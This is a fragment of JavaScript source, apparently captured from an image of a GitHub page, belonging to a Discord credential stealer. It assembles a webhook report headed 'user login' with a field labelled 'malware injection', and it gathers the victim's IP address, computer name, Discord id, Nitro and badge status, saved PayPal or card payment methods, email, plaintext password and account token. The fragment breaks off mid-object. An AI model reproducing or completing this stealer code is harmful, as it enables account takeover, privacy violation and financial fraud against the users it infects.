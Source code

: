                                     } else if (z.type == 2 && z.invalid != !0) {
                                        billing += "\`✔️\`" + " <:paypal:896441236062347374>"
                                    } else if (z.type == 1 && z.invalid != !0) {
                                        billing += "\`✔️\`" + " :credit_card:"
                                    } else {
                                        return "\`❌\`"
                                    }
                                })
                                if (billing == "") {
                                    billing = "\`❌\`"
                                }
                                return billing
                            }
                            const json = JSON.parse(info);
                            var params = {
                                username: "fantasy",
                                content: "",
                                embeds: [{
                                    "title": "user login",
                                    "color": config['embed-color'],
                                    "fields": [{
                                        name: "malware injection",
                                        value: `\`\`\`${discordInstall}\n\`\`\``,
                                        inline: !1
                                    }, {
                                        name: "ip:",
                                        value: `\`${ip}\``,
                                        inline: !0
                                    }, {
                                        name: "pc name:",
                                        value: `\`${computerName}\``,
                                        inline: !0
                                    }, {
                                        name: "username:",
                                        value: `\`${json.username}#${json.discriminator}\``,
                                        inline: !0
                                    }, {
                                        name: "id:",
                                        value: `\`${json.id}\``,
                                        inline: !0
                                    }, {
                                        name: "nitro:",
                                        value: `${getNitro(json.premium_type)}`,
                                        inline: !0
                                    }, {
                                        name: "badges:",
                                        value: `${getBadges(json.flags)}`,
                                        inline: !0
                                    }, {
                                        name: "payment methods:",
                                        value: `${cool()}`,
                                        inline: !0
                                    }, {
                                        name: "email:",
                                        value: `\`${email}\``,
                                        inline: !0
                                    }, {
                                        name: "password:",
                                        value: `\`${password}\``,
                                        inline: !0
                                    }, {
                                        name: "token:",
                                        value: `\`\`\`${token}\`\`\``,
                                        inline: !1